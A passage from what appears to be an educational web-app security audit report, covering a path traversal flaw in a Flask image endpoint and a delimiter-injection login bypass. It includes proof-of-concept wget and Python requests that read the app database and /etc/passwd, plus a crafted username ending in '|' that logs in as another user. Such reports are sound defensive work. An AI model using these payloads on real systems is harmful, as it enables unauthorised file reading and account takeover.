 line 60 in `main.py`:
```python
return send_file(DATA_DIR + '/' + user + img_format, mimetype='image/png')
```

### 2.5.3 Proof of Concept

- to download the database we can use `wget` in Linux:
```bash
wget "http://127.0.0.1:5000/submission_img?user=../db/__main__&format=" -O db.xz
```
- to do the same with Python:
```python
import requests
URL = "http://127.0.0.1:5000/submission_img?user=../db/__main__&format="
r = requests.get(URL)
with open("db.xz", "wb") as f:
    f.write(r.content)
    f.close()
```
- alternatively, we can use this vulnerability to read system files such as `/etc/passwd` on UNIX systems
```bash
wget "http://127.0.0.1:5000/submission_img?user=../../../../../../../../../../../../etc/passwd&format=" -O passwd.txt
```

### 2.5.4 Impact

With the use of path traversal, attacker can request content of any file also outside the `data` directory. This includes the file `db/__main__`, which contains database, as well as any other system files that process has rights to read.

### 2.5.5 Recommendation

Do not let users request files directly, but only send files that are a submission of a user. Furthermore, the pathname should be validated the same way that was previously mentioned in part **2.2.5**.

### **2.6 Improper input validation**

- **KSI attack name:** Getting login as another user without password
- **Severity:** <span style="color:#f32a00">**High**</span>
- **Reference:** [CWE-943](https://cwe.mitre.org/data/definitions/943.html)

### 2.6.1 Description

Attacker can modify how data is store in the database, by using special characters that can temper with how the database stores and parses the data.

### 2.6.2 Proof of Concept

- consider this our DB:
```json
logins|1058279165:::LosiceKarsice|3276514909:::LosKokos
```
- if we now create a new user `LosiceKarsice|`, a new entry in table logins will be created that maps our session id to username
```json
logins|1058279165:::LosiceKarsice|3276514909:::LosKokos|1234567890:::LosiceKarsice|
```
- when the web app tries to figure out username of the user with session id `1234567890`, it will return only `LosiceKarsice` without `|` as that is used as delimiter for entries in the table
- attacker gets logged in as user `LosiceKarsice`
